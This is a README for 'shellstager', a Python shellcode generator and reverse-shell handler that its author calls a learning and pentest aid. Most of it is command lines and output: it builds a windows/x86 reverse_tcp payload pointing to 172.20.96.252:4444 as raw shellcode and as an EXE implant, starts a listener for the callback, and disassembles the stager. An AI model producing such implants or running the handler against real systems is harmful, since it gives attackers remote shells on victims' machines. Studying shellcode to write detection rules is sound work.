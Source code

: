 # shellstager

This tool helps on Shellcode understanding and development. It also includes Service Handler to help simulating remote attacks and for possible EDR rules creation.

```
$ ~/shellstager/ python shellstager.py payload -h
usage: payload [-h] [-l] [-s SEARCH_PAYLOAD] {add,get,disasm} ...

ShellStager - Shellcode maker for penetration testing.

positional arguments:
  {add,get,disasm}
    add                 Add new Payload script.
    get                 Get Payload data.
    disasm              Show Disassembly of Payload.

optional arguments:
  -h, --help            show this help message and exit
  -l, --list-payloads   List all available Payloads.
  -s SEARCH_PAYLOAD, --search-payload SEARCH_PAYLOAD
                        List all available Payloads.
```

**Dumping raw Shellcode to commandline**
```
$ ~/shellstager/ python shellstager.py payload get --name windows/x86/shell/reverse_tcp --host 172.20.96.252 --port 4444 -f raw
`1ۉd0[
8u};}$uXP$fHP څt>I411
           JPڋډЉD$$ZZaY[QX_[)TPh)kj
h`h\PPPP@P@Ph՗jVWhtaՅt
udjjVWh_Ճ~66j@hVjhXSSjVSWh_Ճ}%Xh@jPh
                                    /0WhunMa^^
                                              $p)uVjS%
```

**Creating an EXE implant/payload**
```
$ ~/shellstager/ python shellstager.py payload get --name windows/x86/shell/reverse_tcp --host 172.20.96.252 --port 4444 -f exe
MZ@     !L!T␤␋⎽ ⎻⎼⎺±⎼▒└ ␌▒┼┼⎺├ ␉␊ ⎼┤┼ ␋┼ DOS └⎺␍␊↓
$]┴⎽┴⎽┴⎽V▒┴⎽R␋␌␤┴⎽PEL␌␉

                        @ .text` ``1ۉd0[
8u};}$uXP$fHP څt>I411                   [K&1s(1<a|,
           JPڋډЉD$$ZZaY[QX_[)TPh)kj
h`h\PPPP@P@Ph՗jVWhtaՅt
udjjVWh_Ճ~66j@hVjhXSSjVSWh_Ճ}%Xh@jPh
                                    /0WhunMa^^
                                              $p)uVjS%
```

**Running the Service Handler**
```
$ ~/shellstager/ python shellstager.py handler run --payload windows/x86/shell/reverse_tcp --host 172.20.96.252 --port 4444
[*] Started Reverse TCP handler for 172.20.96.252:4444

```

**Shellcode Disassembly
```
$ ~/shellstager/ python shellstager.py payload disasm --name windows/x86/shell/reverse_tcp --host 172.20.96.252 --port 4444 --lines 30
[*] Showing 30 lines disassembly:
    0x0:        cld
    0x1:        call    0x96
    0x6:        pushal
    0x7:        xor     ebx, ebx
    0x9:        mov     ebp, esp
    0xb:        mov     ebx, dword ptr fs:[0x30]
    0x12:       mov     ebx, dword ptr [ebx + 0xc]
    0x15:       mov     ebx, dword ptr [ebx + 0x14]
    0x18:       movzx   ecx, word ptr [ebx + 0x26]
    0x1c:       xor     edi, edi
    0x1e:       mov     esi, dword ptr [ebx + 0x28]
    0x21:       xor     eax, eax
    0x23:       lodsb   al, byte ptr [esi]
    0x24:       cmp     al, 0x61
    0x26:       jl      0x2a
    0x28:       sub     al, 0x20
    0x2a:       ror     edi, 0xd
    0x2d:       add     edi, eax
    0x2f:       loop    0x21
    0x31:       push    ebx
    0x32:       push    edi
    0x33:       mov     ebx, dword ptr [ebx + 0x10]
    0x36:       mov     eax, dword ptr [ebx + 0x3c]
    0x39:       add     eax, ebx
    0x3b:       mov     eax, dword ptr [eax + 0x78]
    0x3e:       test    eax, eax
    0x40:       je      0x90
    0x42:       add     eax, ebx
    0x44:       push    eax
    0x45:       mov     ecx, dword ptr [eax + 0x18]
```

<br><br><br>
Note:<br>
*This is an attempt on understanding internals of Shellcodes in backdoors or implants if you will. Although that Metasploit was used to be written in Python, I write this as it is my way of learning things.*

<br><br>
References:
<br>MASM
<br>Metasploit
<br>Capstone
<br>Keystone
<br>pefile
